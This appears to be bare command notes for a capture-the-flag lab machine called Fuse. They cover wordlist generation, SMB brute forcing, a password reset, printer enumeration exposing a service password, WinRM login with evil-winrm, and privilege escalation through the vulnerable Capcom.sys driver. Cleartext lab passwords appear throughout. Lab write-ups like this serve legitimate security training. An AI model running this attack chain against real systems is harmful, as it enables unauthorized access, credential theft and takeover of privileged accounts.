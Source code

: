 fuse
cewl -w pwd.txt --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm

hydra -L users.txt -P pwd.txt 10.10.10.193 smb

smbclient -L 10.129.2.5 -U tlavel
smbpasswd -r 10.129.2.5 -U tlavel
Fabricorp01
Password@123987


rpcclient -U tlavel 10.129.2.5
$fab@s3Rv1ce$1
enumprinters

Password@123987


crackmapexec winrm 10.129.2.5 -u users.txt -p '$fab@s3Rv1ce$1'


evil-winrm -i 10.129.2.5 -u svc-print -p '$fab@s3Rv1ce$1'


Download Capcom.sys
Download ExploitCapcom.exe
whoami /priv
upload /root/Downloads/Capcom.sys .
upload /root/Downloads/ExploitCapcom.exe .


.\ExploitCapcom.exe LOAD C:\Users\svc-print\Documents\Capcom.sys
.\ExploitCapcom.exe EXPLOIT whoami